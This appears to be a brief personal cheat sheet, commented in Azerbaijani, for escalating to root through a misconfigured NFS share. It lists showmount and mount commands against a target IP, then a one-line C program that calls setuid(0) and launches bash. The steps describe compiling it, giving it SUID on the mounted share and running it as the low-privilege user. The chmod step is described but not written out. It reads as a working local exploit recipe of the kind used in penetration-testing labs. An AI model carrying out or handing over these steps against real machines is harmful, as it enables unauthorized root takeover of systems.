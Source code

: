 ## ILK OLARAQ BIZ HEDEFIN NFS KIMI ICAZELERINE BAXIRIQ 
    showmount -e {ip adress}
## EGER ICAZELERI VARSA (MESELEN TMP QOVLUQU) ONDA
## oz mashinimizda root ile share qovluqu yaradiriq
     sudo mount  -t nfs ("ip adress"):/tmp /tmp/share
## ve hedefin tmp qovluqlarinda olan hershey bizde gorsenecek ve ilk olaraq /bin/bash qovluqunu 
     cp /bin/bash .
##  kopyalayib getiririk ve atack masinimizda buna suid icazesi verib kecirk roota     

## kalideki atack masinimiza kecirik
    echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > hasan.c
## daha sonra 
    gcc hasan.c -o hasan
## ve daha sonra hamisina chmod ile suid ve ex icazesi veririk 


## (user hissesi) daha sonra usere kecib 
    ./hasan -p
## runladiqdan sonra artiq roota kecmisik
